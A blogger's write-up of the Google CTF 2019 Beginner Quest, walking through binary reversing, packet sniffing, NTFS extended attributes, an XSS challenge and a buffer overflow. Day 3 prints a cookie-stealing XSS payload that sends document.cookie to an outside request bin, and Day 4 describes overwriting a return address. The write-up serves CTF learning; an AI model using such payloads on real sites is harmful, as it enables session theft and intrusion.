







# GoogleCTF
## 2019 - Beginner Quest (Part 1)

### Introduction
[Google CTF](capturetheflag.withgoogle.com). No need intorduction to this. Wishing to participate in it, I know myself is hugely insufficient in knowledge in participating the real event. But why don't we explore the beginner's quest first?
The Beginner Quest is basically capturing many flags in many areas. I like the context of it -- space traveller travelling space.

### Day 0 - Space-Time Coordinates
#### Steps
1. The test comes with an attachment, which is an archive file. We can try to unzip it first, and we can see there are 2 files:
    > rand 2
    > log.txt
1. Let's open the file with format we all knows - log.txt
    > 0: AC+79 3888{6652492084280_198129318435598}
    > 1: Pliamas Sos{276116074108949_243544040631356}
    > 2: Ophiuchus{11230026071572_273089684340955}
    > 3: Pax Memor -ne4456 Hi Pro{21455190336714_219250247519817}
    > 4: Camion Gyrin{235962764372832_269519420054142}
1. Ok, it seems that it is a file with names of interstellars we never know about. with the coordinate of two integers that are larger than normal int type. now is the second file:
    > $ file rand2 
    > rand2: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 3.2.0, BuildID[sha1]=0208fc60863053462fb733436cef1ed23cb6c78f, not stripped
1. So this is a program, lets run it:
    > $ ./rand2 
    > Travel coordinator
    > 0: AC+79 3888 - 57438321590240, 114290076712336
    > 1: Pliamas Sos - 96923321152724, 271998167812844
    > 2: Ophiuchus - 158988959213809, 269398935090600
    > 3: Pax Memor -ne4456 Hi Pro - 244197498304474, 134831759107042
    > 4: Camion Gyrin - 123289552018797, 41279326116580
    > 5: CTF - <REDACTED>
    > Enter your destination's x coordinate:
    > \>>> 2
    > Enter your destination's y coordinate:
    > \>>> 3
    > Arrived somewhere, but not where the flag is. Sorry, try again.
1. Seems we have to get the coordinate in order to find our flag. there are multiple ways to try but I tried to open it using Ghidra, a reverse engineering tool. It helps me to view the program in Assembly level and I can understand how it works. But things turns out to be very simple actually.
    
1. We could locate the main function using the symbol tree. One good thing about Ghidra is that it trys to rebuild the program source code. I was wondering whether to dig into the assembly language, but instead the string that stores the flag is alreadly staring at me in the decompiled source code panel. So I could just browse the string and found the flag. Yes!
    


### Day 1 - Satellite
#### Steps
1. unpack the packet, we will see there is again two files, one pdf one ELF program. Opening the PDF, we see more description text that ask us to run the program, and a poorly edited picture.
1. running the program, it is:
    > $ ./init_sat 
    > Hello Operator. Ready to connect to a satellite?
    > Enter the name of the satellite to connect to or 'exit' to quit
    > 12
    > Unrecognized satellite: 12
    > Enter the name of the satellite to connect to or 'exit' to quit
1. seems we have to find the name of the satellite then. Opening Ghidra again to see if we have any luck. But unfortunately this time the assembly is too low level and divided so I cannot analysis it. It is been a while that I find out the name of the satellite is "Osmium" according to the storyline (Yes I skipped the story actually). It is tricky that only "osmium" is allowed (No Caps, no space/'s's).
    ```console
    Enter the name of the satellite to connect to or 'exit' to quit
    osmium
    Establishing secure connection to osmium
    satellite...
    Welcome. Enter (a) to display config data, (b) to erase all data or (c) to disconnect
    a
    Username: brewtoot password: ********************  166.00 IS-19 2019/05/09 00:00:00  Swath 640km Revisit capacity twice daily, anywhere Resolution panchromatic: 30cm multispectral: 1.2m  Daily acquisition capacity: 220,000km²  Remaining config data written to: https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E
    Welcome. Enter (a) to display config data, (b) to erase all data or (c) to disconnect
    b
    Insufficient privileges.
    Enter (a) to display config data, (b) to erase all data or (c) to disconnect
    c
    Disconnecting, goodbye.
    Enter the name of the satellite to connect to or 'exit' to quit
    ```
1. After all options, only 'a' have somewhere to be. checking out the google docs link and we find:
    > VXNlcm5hbWU6IHdpcmVzaGFyay1yb2NrcwpQYXNzd29yZDogc3RhcnQtc25pZmZpbmchCg==
1. It is a base64 string, so lets decode it:
    > Username: wireshark-rocks
    > Password: start-sniffing!
1. seems that it is a username and password pairs. but it also seems to be saying that we should use wireshark(packet analyzer) to sniff something. It make sense as the quest itself falls into the networking category. The only 'network' thing that we have done is the 'Establishing secure connection to osmium'. so lets try to sniff that
    
1. Judging by the appearence, it calls dns to ask for 'satellite.ctfcompetition.com' address and make further connection to that. After checking WHOIS, it shows that the site is owned by google, which further acknowledge the path. However, browsing the site gives nothing but timeout.
1. So we have to know why it makes timeout in browser but not in the program. Clearly port 80/443 is not opened, but which? Wireshark again, answers the problem by analysing the packet after DNS request, and find the port should be 1377. 
    
1. Again, we find the flag under the hidden password after posting the connection.
    ```console
    $ nc satellite.ctfcompetition.com 1337
    Welcome. Enter (a) to display config data, (b) to erase all data or (c) to disconnect
    a
    Username: brewtoot password: CTF{XXXXXXXXXXXXXXXXXXXXXXXX}  166.00 IS-19 2019/05/09 00:00:00  Swath 640km Revisit capacity twice daily, anywhere Resolution panchromatic: 30cm multispectral: 1.2m  Daily acquisition capacity: 220,000km²  Remaining config data written to: https://docs.google.com/document/d/14eYPluD_pi3824GAFanS29tWdTcKxP_XUxx7e303-3E
    ```

### Day 1 - Ads
#### Steps
1. By clicking at the "Stare at the blue planet" path after day0, we find ourself in a task called 'ad'. it is a commercial video that let you view the promo video of the CTF. If you stare at the video carefully, you will find the flag.


### Day 2 - Home computer
#### Steps
1. This time the task comes with two files, 'note.txt' and 'family.ntfs'. The notes is telling me to change file to .dmg if i was using a mac. After searching, the .ntfs file is actually a partition file. 
1. Then I have to analyze the ntfs file. After searching I find that we can open the file by mounting the file to file system, and it shold work properly:
    > $ cd /mnt
    > $ sudo mkdir family
    > $ sudo mount %PATH_TO_FILE%/family.ntfs /mnt/family
1. We can then see it is a windows system in it. Many files exist there but the file we want is inside '/Users/family/documents' that called credential.txt, as all other files having 0 file size. 
    > $ cat credentials.txt 
    > I keep pictures of my credentials in extended attributes.
1. ok so now u store credential in a credential file but more tricky. Seems there is nothing to see in the properties in GUI. Another search brings me to the getfattr command:
    > $ getfattr credentials.txt 
    > # file: credentials.txt
    > user.FILE0
1. the command shows that there is an attribute called 'user.FILE0'. So I tried again to pull it out:
    > $ getfattr credentials.txt -n user.FILE0
    > # file: credentials.txt
    > user.FILE0=0siVBORw0KGgoAAAANSUhEUgAABNIAA.....
1. here we find the picture as stated in the 'I keep **pictures** of my credentials in extended attributes.' so lets dump it into the file:
    > $ getfattr -n user.FILE0 --only-values credentials.txt > img
    > $ display img 
1. Then we can find the flag!


### Day 3 - Government Agriculture Network
I have to say that, I really rake my brains out this task. People may find it easy but I cannot notice the place of breakthtough. After I read it from other writeups then I find it easy to do the rest.
#### Steps
1. the task comes with a [link](https://govagriculture.web.ctfcompetition.com/) which only have 2 buttons:
  - Submit: submit the thing you entered to '/post', with response text
      > Your post was submitted for review. Administator will take a look shortly. 
  - Admin: this redirect you to '/admin', which post a 303 redirection that transfer back to the home page.
    
1. Seeing that there is an input field, I already knows that there is something to do with either injection or XSS. I tried to input some trash into it, but sadly I dont see the response:
    > "'(\(){}--
    > <script>alert(666)</script>
1. Here is where I stuck for long. I cannot see there is anything to temper with the inputfield. I left no way but to request help from the internet. And they gave me a breakthrough of telling me that there is actually an admin to 'Read' the post by browsing anything you put in the message (It suppose to be a ROBOT behind!!! NO ONE IS SUPPOSED TO READ THE THING I POSTED!!!). Anyway they also suggested the tool [postbin](postb.in) that I could use to receieve HTTP request
from anywhere.
1. Then things go really easy. I just tamper the XSS script and make the admin browse my site, only letting him give us one more little gift.
    > <script>location.href="https://postb.in/XXXXXX?cookie="+document.cookie;</script>
1. and we check the bin, our gift from admin has arrived!
    > cookie: 
    > flag=CTF{XXXXXXXXXXXXXXXXXXX}; 
    > session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV


### Day 4 - STOP GAN
#### Steps
1. it is a very easy task, and it is a buffer overflow task. YOU KNOW WHAT TO DO :)
    ```console
    $ nc buffer-overflow.ctfcompetition.com 1337
    Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
     Bonus flag for controlling the crash.
     Console commands: 
     run
     quit
     >>run
     Inputs: run aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
     CTF{XXXXXXXXXXXXXXXXXXXXXXXXXX}
     Cauliflower systems never crash >>
     segfault detected! ***CRASH***
     Console commands: 
     run
     quit
     ```


### Day 4 - STOP GAN (Second Flag)
This task is with the help of other [write-up](https://qiita.com/kusano_k/items/5a20a28a3e0ba27124c9#stop-gan-bof-2%E5%80%8B%E7%9B%AE) that helped me to achieve the task. I tried to DIY same approach after reading it. 
#### Steps
1. this task have a bonus flag for controlling the crash.
1. I tried several times and find the point of achiving buffer overflow is 264 characters, which its behaviour is different from others (Acually I have found that in the first flag, I touch the point by luck, but ignored it because I thought it is a bug)
    ```console
    Inputs: run
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    a           //<-- this is any input
    Cauliflower systems never crash >>
    Cauliflower systems never crash >>

    Console commands: 
    ```
1. After that, we have to analysis the binary again.
     
1. There are things we could find in the code:
    - There are 2 return statements
    - The return statement is using "jr ra"(jump to address in $ra) instead of "ret"(return)
    - There is a local_flag() function in the code (which is easy to neglect and hard to find)
     
1. The exploit is that --- We have to utilize the buffer overflow to control the place to overflow, and by overflowing the function we could overwrite the return address and let "jr ra" help us to jump to local_flag(), and hopefully it will help us to print another flag.
1. As we have to pass the address, which is binary, we have to write a program to help us deliver the attack.
1. The exploit code is not written here as it is highly similar to the source I found in the link above. Some points to notice is that:
    - Use socket to establish connection with the url and port given as the program downloaded does not contain the flag
    - Use `pack("<I", 0x400860)` to pack the binary as a string argument. ('<' is little endiean aand 'I' is unsigned integer)
1. Hopefully now the flag will be shown with the program:
    ```console
    Console commands: 
    run
    quit
    >>
    Inputs: run
    CTF{XXXXFLAG1XXXX}
    CTF{XXXXFLAG2XXXX}
    Cauliflower systems never crash >>
    segfault detected! ***CRASH***
    ```
